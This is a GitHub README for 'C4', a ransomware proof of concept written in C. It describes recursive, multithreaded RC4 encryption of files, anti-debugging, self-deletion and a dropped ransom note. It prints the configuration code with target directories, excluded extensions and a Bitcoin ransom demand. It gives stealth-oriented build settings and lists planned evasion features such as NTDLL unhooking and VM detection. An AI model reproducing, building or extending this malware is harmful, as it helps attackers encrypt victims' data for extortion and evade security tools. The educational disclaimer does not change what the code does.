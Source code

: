 # C4

#### Lightweight Ransomware POC with Built-in Anti-Analysis


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Drops a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Self-deletes the executable after finishing.
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
   ///////////////////
  // CONFIGURATION //
 ///////////////////

TEXT_SECTION BOOL g_EncryptMode         =       TRUE;     // TRUE = Encrypt, FALSE = Decrypt
TEXT_SECTION BOOL g_RansomMode          =       TRUE;     // TRUE = Drop a text file (g_Note) with payment instructions to the current directory
TEXT_SECTION BOOL g_AntiDebug           =       TRUE;     // TRUE = Program exits when debugger (such as x64dbg, OllyDbg, WinDbg) is attached 
TEXT_SECTION BOOL g_SelfDelete          =       TRUE;     // TRUE = Binary will self-delete
TEXT_SECTION BOOL g_Verbose             =       TRUE;     // TRUE = Print files, directories, errors, and execution time to the console


LPCWSTR g_Directories[] = { 
    L"C:\\Users\\Public\\TestDirectory", 
    NULL                               
}; 

LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {    
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", L".conf",
    L".cfg", L".reg", L".dat", L".bat", L".cmd"
};


LPCSTR g_Note = {           
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest File → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem when using verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection
